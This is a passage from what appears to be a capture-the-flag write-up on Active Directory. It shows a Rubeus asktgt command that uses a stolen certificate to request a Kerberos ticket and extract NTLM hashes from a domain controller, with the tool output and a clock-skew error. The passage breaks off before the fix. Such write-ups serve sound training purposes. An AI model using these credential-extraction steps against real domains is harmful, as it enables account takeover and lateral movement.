 The first step is to get the Alternate Name from the certificates:
![PFX details](/assets/breizhctf-22-pfx-details.png)

Next, using `Rubeus` `asktgt` command we can retrieve a TGT and fetch the NTLM hashes of the 3 accounts with `/getcredentials`. Note that PowerShell replace unicode characters by `??????` but it works like a charm:

```
PS C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:????????????? /certificate:?????????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : AL9SDSYT
[*] Domain          : EDDZ0POS
[*] Password        : WKQYD994
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4944
[+] LUID            : 0x33dbab[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\?????????????'
[*] Target LUID : 3398571
[*] Using domain controller: 10.0.20.11:88
[X] KRB-ERROR (37) : KRB_AP_ERR_SKEWPS 
```
The error `KRB_AP_ERR_SKEWPS` indicates that we have a time drift with the DC, we need to change time of our client to comply with the server. Fortunatly, the domain controller indicates its time in the Kerberos exchange:
